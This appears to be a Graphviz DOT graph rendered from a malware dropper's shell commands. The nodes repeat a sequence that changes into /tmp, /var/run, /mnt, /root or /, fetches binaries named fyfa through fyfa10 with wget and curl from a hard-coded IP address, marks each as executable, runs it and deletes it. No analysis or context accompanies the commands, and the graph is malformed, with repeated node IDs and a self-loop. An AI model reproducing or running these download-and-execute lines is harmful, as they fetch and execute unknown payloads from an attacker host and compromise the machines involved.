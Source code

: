 digraph {
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 10 [label="||,"];
10 [label="wget http://188.213.165.57/fyfa "];
10 -> 12 [label=";,"];
12 [label="curl -O http://188.213.165.57/fyfa "];
12 -> 14 [label=";,"];
14 [label="chmod +x fyfa "];
14 -> 16 [label=";,"];
16 [label="./fyfa "];
16 -> 18 [label=";,"];
18 [label="rm -rf fyfa "];
18 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 30 [label="||,"];
30 [label="wget http://188.213.165.57/fyfa1 "];
30 -> 32 [label=";,"];
32 [label="curl -O http://188.213.165.57/fyfa1 "];
32 -> 34 [label=";,"];
34 [label="chmod +x fyfa1 "];
34 -> 36 [label=";,"];
36 [label="./fyfa1 "];
36 -> 38 [label=";,"];
38 [label="rm -rf fyfa1 "];
38 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 50 [label="||,"];
50 [label="wget http://188.213.165.57/fyfa2 "];
50 -> 52 [label=";,"];
52 [label="curl -O http://188.213.165.57/fyfa2 "];
52 -> 54 [label=";,"];
54 [label="chmod +x fyfa2 "];
54 -> 56 [label=";,"];
56 [label="./fyfa2 "];
56 -> 58 [label=";,"];
58 [label="rm -rf fyfa2 "];
58 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 70 [label="||,"];
70 [label="wget http://188.213.165.57/fyfa3 "];
70 -> 72 [label=";,"];
72 [label="curl -O http://188.213.165.57/fyfa3 "];
72 -> 74 [label=";,"];
74 [label="chmod +x fyfa3 "];
74 -> 76 [label=";,"];
76 [label="./fyfa3 "];
76 -> 78 [label=";,"];
78 [label="rm -rf fyfa3 "];
78 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 90 [label="||,"];
90 [label="wget http://188.213.165.57/fyfa4 "];
90 -> 92 [label=";,"];
92 [label="curl -O http://188.213.165.57/fyfa4 "];
92 -> 94 [label=";,"];
94 [label="chmod +x fyfa4 "];
94 -> 96 [label=";,"];
96 [label="./fyfa4 "];
96 -> 98 [label=";,"];
98 [label="rm -rf fyfa4 "];
98 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 110 [label="||,"];
110 [label="wget http://188.213.165.57/fyfa5 "];
110 -> 112 [label=";,"];
112 [label="curl -O http://188.213.165.57/fyfa5 "];
112 -> 114 [label=";,"];
114 [label="chmod +x fyfa5 "];
114 -> 116 [label=";,"];
116 [label="./fyfa5 "];
116 -> 118 [label=";,"];
118 [label="rm -rf fyfa5 "];
118 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 130 [label="||,"];
130 [label="wget http://188.213.165.57/fyfa6 "];
130 -> 132 [label=";,"];
132 [label="curl -O http://188.213.165.57/fyfa6 "];
132 -> 134 [label=";,"];
134 [label="chmod +x fyfa6 "];
134 -> 136 [label=";,"];
136 [label="./fyfa6 "];
136 -> 138 [label=";,"];
138 [label="rm -rf fyfa6 "];
138 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 150 [label="||,"];
150 [label="wget http://188.213.165.57/fyfa7 "];
150 -> 152 [label=";,"];
152 [label="curl -O http://188.213.165.57/fyfa7 "];
152 -> 154 [label=";,"];
154 [label="chmod +x fyfa7 "];
154 -> 156 [label=";,"];
156 [label="./fyfa7 "];
156 -> 158 [label=";,"];
158 [label="rm -rf fyfa7 "];
158 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 170 [label="||,"];
170 [label="wget http://188.213.165.57/fyfa8 "];
170 -> 172 [label=";,"];
172 [label="curl -O http://188.213.165.57/fyfa8 "];
172 -> 174 [label=";,"];
174 [label="chmod +x fyfa8 "];
174 -> 176 [label=";,"];
176 [label="./fyfa8 "];
176 -> 178 [label=";,"];
178 [label="rm -rf fyfa8 "];
178 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 190 [label="||,"];
190 [label="wget http://188.213.165.57/fyfa9 "];
190 -> 192 [label=";,"];
192 [label="curl -O http://188.213.165.57/fyfa9 "];
192 -> 194 [label=";,"];
194 [label="chmod +x fyfa9 "];
194 -> 196 [label=";,"];
196 [label="./fyfa9 "];
196 -> 198 [label=";,"];
198 [label="rm -rf fyfa9 "];
198 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 210 [label="||,"];
210 [label="wget http://188.213.165.57/fyfa10 "];
210 -> 212 [label=";,"];
212 [label="curl -O http://188.213.165.57/fyfa10 "];
212 -> 214 [label=";,"];
214 [label="chmod +x fyfa10 "];
214 -> 216 [label=";,"];
216 [label="./fyfa10 "];
216 -> 217 [label=";,"];
}
